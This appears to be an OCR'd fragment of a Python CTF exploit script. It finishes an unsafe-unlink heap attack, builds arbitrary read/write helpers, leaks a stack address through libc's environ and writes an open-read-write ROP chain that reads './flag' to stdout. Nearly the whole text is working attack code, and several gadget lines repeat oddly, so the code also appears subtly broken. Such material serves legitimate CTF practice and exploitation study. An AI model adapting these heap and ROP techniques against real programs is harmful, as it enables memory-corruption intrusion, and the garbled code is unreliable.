 ```py
modify_addr_value(p9_chunk + 0x8, p64(0x500))

delete(9)
# unsafe unlink end --------

modify_bin_size(0)
add(5, 'a' * 32)

def modify_addr_value_pro(addr: int, value: bytes) -> None:
	edit(8, p64(addr))
	edit(5, value)

def show_addr_value(addr: int) -> bytes:
	edit(8, p64(addr))
	return encrypt(show(5)[1:][:16])

data = show_addr_value(libc.symbols['environ'])[:8]
stack_base = u64(data)
ret_addr = stack_base - 0x130
write_addr  = stack_base - 0x2000
gadget_addr = write_addr
flag_addr   = write_addr + 0x8
orm_addr    = write_addr + 0x10

print(f'stack_base:       { hex(stack_base) }')
print(f'ret_addr:         { hex(ret_addr) }')
print(f'write_addr:       { hex(write_addr) }')

buffer_addr = heap_base + 0x500

pop_rdi = libc_base + 0x23b6a
pop_rsi = libc_base + 0x2601f
pop_rdx = libc_base + 0xdfc12

orw = b''
orw += asm('pop rsp; ret;' + 'nop;' * 6)
orw += b'./flag'.ljust(8, b'\x00')
orw += p64(pop_rdi) + p64(flag_addr)
orw += p64(pop_rsi) + p64(0x4)
orw += p64(libc.symbols['open'])
orw += p64(pop_rdi) + p64(3)		# 3 is the fd of open file
orw += p64(pop_rdi) + p64(3)		# 3 is the fd of open file
orw += p64(pop_rdi) + p64(3)		# 3 is the fd of open file
orw += p64(pop_rsi) + p64(buffer_addr)
orw += p64(pop_rdx) + p64(0xff)
orw += p64(libc.symbols['read'])
orw += p64(pop_rdi) + p64(1)		# 1: stdout
orw += p64(pop_rdi) + p64(1)		# 1: stdout
orw += p64(pop_rdi) + p64(1)		# 1: stdout
orw += p64(pop_rsi) + p64(buffer_addr)
orw += p64(pop_rdx) + p64(0xff)
orw += p64(libc.symbols['write'])

for i in range(0, len(orw), 8):
	modify_addr_value_pro(write_addr + i, orw[i: i + 8])

modify_addr_value_pro(ret_addr, decrypt(p64(gadget_addr) + p64(orm_addr)))

p.recvuntil(b'flag')
print(b'flag' + p.recv(0x50))

```
